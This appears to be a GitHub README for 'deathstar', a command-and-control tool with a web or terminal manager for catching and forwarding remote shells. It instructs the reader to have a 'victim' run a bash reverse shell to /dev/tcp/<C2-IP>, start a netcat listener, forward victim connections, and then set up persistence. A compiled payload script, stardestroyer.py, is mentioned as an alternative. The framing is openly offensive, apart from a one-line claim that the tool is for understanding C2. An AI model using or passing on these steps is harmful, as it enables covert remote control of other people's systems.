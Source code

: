 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.


![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)


# Download deathstar

```git clone github.com/bwithe/deathstar```

# Start C2
`python3 deathstar-web.py`

or 

`python3 deathstar-term.py`

# Open link in web browser

```firefox 127.0.0.1:5000```

# Have Victim connect to C2 
Linux / MacOS

`bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`

or

`./stardestroyer.py`

# Start your listener 
`nc -nvlp 4444`

# Forward the connection to another listener
On the webpage, type the IP of the listening device, and then click forward.

or

On the terminal, list the connections.

Select `2)` to forward.

Specify the `ID` of the `VICTIM` you'd like to forward.

Then, type the IP of your `LISTENING` device.

# Catch the connection
Once you've caught the connection, begin setting up persistence.

# Wash, rince, repeat.

